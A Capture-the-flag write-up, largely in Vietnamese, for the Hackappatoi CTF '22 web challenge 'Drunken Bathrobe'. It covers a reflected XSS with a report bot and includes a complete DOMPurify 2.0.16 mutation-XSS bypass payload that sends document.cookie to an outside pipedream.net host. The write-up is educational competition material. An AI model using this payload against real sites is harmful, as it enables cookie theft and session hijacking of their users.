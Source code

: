 # **Hackappatoi CTF '22**
## **Drunken Bathrobe** 
___
### **Description:**

Welcome to the Drunken Bathrobe! Make yourself comfortable and order your favourite cocktail :)

Author: @voidPtr
```
http://hctf.hackappatoi.com:8002
```
___
### **Solution:**

Web có "/search" để ta kiểm tra số lượng của sản phẩm

![1.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/1.png)

Và tại đây ta có Reflected XSS

![2.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/2.png)

"/report" sẽ nhận query, và 1 con bot sẽ chạy để kiểm tra query đó tại /search

![3.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/3.png)

![4.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/4.png)

![5.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/5.png)

Nhưng trước khi bot chạy để kiểm tra thì quey đã được lọc qua Dompurify và function secureQuery

![6.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/6.png)

Check verion của Dompurify tại Dockerfile: 2.0.16

![7.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/7.png)

Một bài explain vô cùng chi tiết [tại đây](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/).

### **Exploit:**

Chạy trên local thì mình thấy rằng payload cần phải được URL Encode 2 lần thì mới có tác dụng

![8.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/8.png)

Vậy payload: 
```
<form><mamathth><mtext><form><mglyph><style></mamathth><img src=x onerror=fetch('https://eobdy9he407yt6p.m.pipedream.net/'+document.cookie)></style></mglyph></form></mtext></mamathth></form>
```

Final payload:

![9.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/9.png)

Flag:

![10.png](https://github.com/L4P1Nz/Hackappatoi-CTF-22/blob/main/Drunken%20Bathrobe/Media/10.png)